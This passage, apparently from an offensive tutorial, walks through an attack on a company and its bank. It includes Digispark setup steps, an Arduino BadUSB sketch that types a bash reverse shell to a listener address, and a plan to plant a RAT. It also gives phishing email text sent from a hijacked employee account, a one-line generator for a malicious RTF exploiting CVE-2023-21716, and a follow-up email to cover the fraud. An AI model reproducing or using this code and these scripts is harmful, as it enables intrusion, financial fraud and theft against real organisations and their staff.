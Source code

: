     - Find "Digistump AVR Boards" and click  
        Install  
        
4. Select the Digispark Board:  
    - Go to Tools Board and select Digispark (Default - 16.5mhz)  
        
5. Connect the Digispark:  
    - Connect the Digispark to your computer using a USB cable.  
        
6. Open or Write Your Code:  
    - You can write your own code or use an existing sketch. For example, if you want to load a remote shell script, you would include the necessary code within the Arduino sketch.  
        
7. Upload the Code:  
    - Click the  
        Upload  
        button in the Arduino IDE.  
        
    - The Digispark board will initially show up as a "new device" and then will reset to begin the upload process. Follow the on-screen instructions if the IDE prompts you to press the reset button on the Digispark.  
        
8. Verify and Test:  
    - Once the upload is complete, the Digispark will execute the code you programmed. You can test its functionality to ensure it works as expected.  
        

  
The code we will write inside the Digispark  

`// Tony Montana   #include <DigiKeyboard.h>      const char* ip = "192.168.1.100"; // Replace with the IP address of your listener   const int port = 4444;            // Replace with the port number of your listener      void setup() {     // Send a key stroke to open a terminal     DigiKeyboard.sendKeyStroke(0);     DigiKeyboard.delay(500);         // Open a terminal     DigiKeyboard.println("gnome-terminal");     DigiKeyboard.delay(2000);         // Type the reverse shell command     DigiKeyboard.println("bash -i >& /dev/tcp/" + String(ip) + "/" + String(port) + " 0>&1");         // Close the terminal     DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT); // ALT + F4 to close   }      void loop() {     // Digispark does not use the loop function for this example   }`

  
Now that we have gained access to the router, we can easily access the company's employee network and install a RAT program on their computer. Then, use their account to send an email to the bank (Hello, we apologize for disturbing you at this hour, but due to an urgent decision by our board of directors, some financial changes have been made. I wanted to inform you about these changes. The decisions made by our company are listed in the attached file. Please read it, and if your bank agrees to these terms, please let us know). Attach a file with a payload to this message (it can be in PDF, RTF, DOCX, or any other extension). Below is an example of an RTF exploit code that you can use, even though it has been patched, it is still a common vulnerability.  
  

`open("malicious.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch No Crash}\n}}\n").encode('utf-8'))`

  
Running this code will create a malicious RTF file. If you want more information about this vulnerability, visit this source [CVE-2023-21716 Exploit](https://www.picussecurity.com/resource/blog/cve-2023-21716-microsoft-word-remote-code-execution-exploit-explained)  
  
After infiltrating the bank employee’s computer, send a second email (Hello again, I would like to inform you that our company is retracting the financial decisions it previously made. We will not be making any changes to our decisions, and our financial partnership will continue as before. Have a good day). The reason for sending this second email is to prevent the agreement changes we proposed in the first email from being implemented. Imagine making changes to a million-dollar deal overnight, and the next day the company says it was unaware of this. If your attack does not achieve its goal, it will end in failure. Anyway, now that we’ve accessed the bank employee’s computer, it’s time for the next stages  
  